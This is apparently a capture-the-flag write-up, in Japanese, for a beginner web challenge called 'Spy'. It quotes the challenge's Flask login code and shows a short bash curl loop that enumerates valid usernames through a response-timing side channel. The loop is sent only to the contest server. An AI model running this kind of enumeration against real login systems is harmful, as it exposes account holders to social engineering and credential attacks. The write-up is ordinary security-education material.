 # Spy:Web:55pts
As a spy, you are spying on the "ctf4b company".  
You got the name-list of employees and the [URL](https://spy.quals.beginners.seccon.jp) to the in-house web tool used by some of them.  
Your task is to enumerate the employees who use this tool in order to make it available for social engineering.  
- [app.py](app.py-eebd3e0541ea83ea360fa650164a231ffe410ece)  
- [employees.txt](employees.txt-c8eb600b89a185e33b6ad279b5f3b513d41b7302)  

# Solution
LoginページとChallengeページがあるようだ。  
ctf4b company  
[site1.png](site/site1.png)  
Challenge  
[site2.png](site/site2.png)  
存在するユーザをloginフォームで調査し、Challengeページで選択する。  
配布されているソースコードであるapp.pyに以下のような記述がある。  
```python:app.py
~~~
    if request.method == "POST":
        name = request.form["name"]
        password = request.form["password"]

        exists, account = db.get_account(name)

        if not exists:
            return render_template("index.html", message="Login failed, try again.", sec="{:.7f}".format(time.perf_counter()-t))

        # auth.calc_password_hash(salt, password) adds salt and performs stretching so many times.
        # You know, it's really secure... isn't it? :-)
        hashed_password = auth.calc_password_hash(app.SALT, password)
        if hashed_password != account.password:
            return render_template("index.html", message="Login failed, try again.", sec="{:.7f}".format(time.perf_counter()-t))
~~~
```
いかにもsecが怪しい。  
ユーザ名が存在する場合パスワードをハッシュ化し、チェックしている。  
つまり、その分secが増加する。  
以下のcheck.shでemployees.txtに記述されているアカウントを確認する(手作業でソースを見てもよい)。  
```bash:check.sh
while read line
do
    echo $line >> check.txt
    curl -X POST -s -d "name=$line&password=Test" https://spy.quals.beginners.seccon.jp | grep -o It.*page. >> check.txt
done < employees.txt
```
check.txtを確認し存在するユーザを選択するとflagが手に入る。  
flag  
[flag.png](site/flag.png)  

## ctf4b{4cc0un7_3num3r4710n_by_51d3_ch4nn3l_4774ck}